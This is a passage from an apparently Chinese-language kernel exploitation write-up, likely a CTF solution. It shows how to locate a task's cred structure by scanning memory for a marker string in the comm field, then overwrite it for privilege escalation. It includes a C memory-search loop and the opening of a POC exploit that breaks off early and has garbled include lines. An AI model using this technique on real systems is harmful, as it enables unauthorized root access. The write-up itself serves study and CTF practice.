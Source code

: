 通过内存搜索，比对我们输入的标记字符串，可以定位 comm[TASK_COMM_LEN] 成员地址，比如设置标记字符串为 "tryToFindPIG007":

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211020162844.png)

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211020162934.png)

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211020163051.png)

 

可以查看当前 Cred 结构中的内容：

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211020163136.png)

```
//search target chr
char *buf = (char *)calloc(1,0x1000);
puts("[+] we can read and write any memory");
for(;addr<0xffffc80000000000;addr+=0x1000){
    arbitrary_read(devFD,0x1000,buf,addr);
    result=memmem(buf,0x1000,target,16);
    if (result){
        printf("result:%p\n",result);
        cred= * (size_t *)(result-0x8);
        real_cred= *(size_t *)(result-0x10);
        // if ((cred||0xff00000000000000) && (real_cred == cred))
        // {
        target_addr=addr+result-(int)(buf);
        printf("[+]found task_struct 0x%lx\n",target_addr);
        printf("[+]found cred 0x%lx\n",real_cred);
        break;
        // }
    }
}

```

##### [](#③任意写劫持cred)③任意写劫持 cred

这个就不多说了，获取到 cred 地址之后直接写就行了

#### POC

```
// gcc -static exp.c -o exp
#include #include #include #include #include #include #include #include #include #include #include #include #include #include #include #include struct arbWriteNote
{
    ssize_t addr;
    ssize_t len;
    char* data;
};
struct arbWriteNote arbWriteObj;
 
 
 
//open dev
int openDev(char* pos);
 
int main(int argc, char *argv[])
{
    setvbuf(stdin,0,2,0);
```